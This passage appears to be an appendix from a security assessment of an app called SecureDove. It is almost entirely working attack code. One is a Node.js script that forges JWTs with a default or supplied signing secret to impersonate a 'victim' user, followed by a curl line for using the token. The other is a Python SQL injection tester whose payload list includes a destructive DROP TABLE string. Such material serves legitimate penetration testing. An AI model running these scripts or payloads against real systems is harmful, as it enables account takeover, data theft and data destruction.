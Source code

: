 ```javascript
#!/usr/bin/env node
/**
 * SecureDove JWT Token Forger
 */
const jwt = require('jsonwebtoken');

const JWT_SECRET = process.argv[2] || 'your-secret-key-change-in-production';
const username = process.argv[3] || 'victim';
const userId = parseInt(process.argv[4] || '1');

const token = jwt.sign(
  { userId, username },
  JWT_SECRET,
  { expiresIn: '24h' }
);

console.log('Forged Token:');
console.log(token);
console.log('\nUse with:');
console.log(`curl -H "Authorization: Bearer ${token}" https://[server]/api/auth/user`);
```

### A.3 SQL Injection Tester

```python
#!/usr/bin/env python3
"""
SecureDove SQL Injection Tester
"""
import requests
import json

API_URL = "https://[server].vercel.app/api"
TOKEN = "your-auth-token"

payloads = [
    "' OR '1'='1",
    "'; DROP TABLE users--",
    "' UNION SELECT * FROM users--",
    "1' AND 1=1--",
    "1' AND 1=2--"
]

def test_sqli(endpoint, param_name, payload):
    headers = {'Authorization': f'Bearer {TOKEN}'}
    data = {param_name: payload}
    
    try:
        r = requests.post(f"{API_URL}{endpoint}", json=data, headers=headers)
        print(f"[*] Payload: {payload}")
        print(f"    Status: {r.status_code}")
        print(f"    Response: {r.text[:100]}")
        
        if "error" not in r.text.lower():
            print(f"[!] POTENTIAL VULNERABILITY!")
    except Exception as e:
        print(f"[-] Error: {e}")

for payload in payloads:
    test_sqli('/conversations', 'id', payload)
```

---